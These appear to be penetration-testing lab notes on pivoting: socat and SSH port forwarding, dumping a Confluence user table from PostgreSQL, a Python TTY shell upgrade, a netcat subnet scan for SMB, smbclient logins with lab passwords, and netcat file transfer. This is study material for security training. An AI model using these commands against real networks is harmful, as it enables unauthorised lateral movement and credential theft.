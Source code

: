 use socat to set up port forwarding
On CONFLUENCE01, we'll start a verbose (-ddd) Socat process. It will listen on TCP port 2345 (TCP-LISTEN:2345), fork into a new subprocess when it receives a connection (fork) instead of dying after a single connection, then forward all traffic it receives to TCP port 5432 on PGDATABASE01 (TCP:10.4.50.215:5432).

```
socat -ddd TCP-LISTEN:2345,fork TCP:10.4.50.215:5432
```

now we can run psql client through the port forward
```
psql -h 192.168.50.63 -p 2345 -U postgres
```

on postgres the cwd_user table contains username and password
```
\c confluence
select * from cwd_user;
```

### SSH Local Port Forwarding
python tty shell
```
python3 -c 'import pty; pty.spawn("/bin/bash")'
```
if port scanner not included we can do a bash for loop to discover services
```
for i in $(seq 1 254); do nc -zv -w 1 172.16.50.$i 445; done
```

A local port forward can be set up using OpenSSH's -L option, which takes two sockets (in the format IPADDRESS:PORT) separated with a colon as an argument (e.g. IPADDRESS:PORT:IPADDRESS:PORT). The first socket is the listening socket that will be bound to the SSH client machine. The second socket is where we want to forward the packets to. The rest of the SSH command is as usual - pointed at the SSH server and user we wish to connect as.

Let's create the SSH connection from CONFLUENCE01 to PGDATABASE01 using ssh, logging in as database_admin. We'll pass the local port forwarding argument we just put together to -L, and use -N to prevent a shell from being opened.
```
ssh -N -L 0.0.0.0:4455:172.16.50.217:445 database_admin@10.4.50.215
```

use ss to check ssh sessions
```
ss -ntplu
```

SMB get shares
```
smbclient -p 4455 -L //192.168.50.63/ -U hr_admin --password=Welcome123
smbclient -p 4455 //192.168.50.63/scripts -U hr_admin --password=Welcome1234
```

netcat for file transfers
On the receiving end running,
```
nc -l -p 1234 > out.file
```
will begin listening on port 1234.
